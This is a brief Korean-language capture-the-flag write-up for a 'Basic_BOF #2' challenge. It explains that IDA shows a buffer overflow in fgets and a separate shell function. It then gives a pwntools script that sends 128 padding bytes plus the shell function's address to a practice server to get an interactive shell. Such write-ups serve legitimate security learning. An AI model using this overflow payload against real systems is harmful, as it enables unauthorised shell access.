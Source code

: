 # Basic_BOF #2

![](1.PNG)    
IDA로 분석해보면, fgets 함수에서 bof가 발생하는 것을 알 수 있다.   
<br/>

![](2.PNG)   
또한 shell을 실행시켜주는 함수가 따로 존재한다.   
<br/>

따라서 v5를 shell함수로 덮어주면 shell을 획득할 수 있다.   
<br/>

```
from pwn import *

e = ELF('./bof_basic2')
p = remote('ctf.j0n9hyun.xyz', 3001)

shell = e.symbols['shell']

payload = ''
payload += 'A'*128
payload += p32(shell)

p.send(payload)
p.interactive()
```
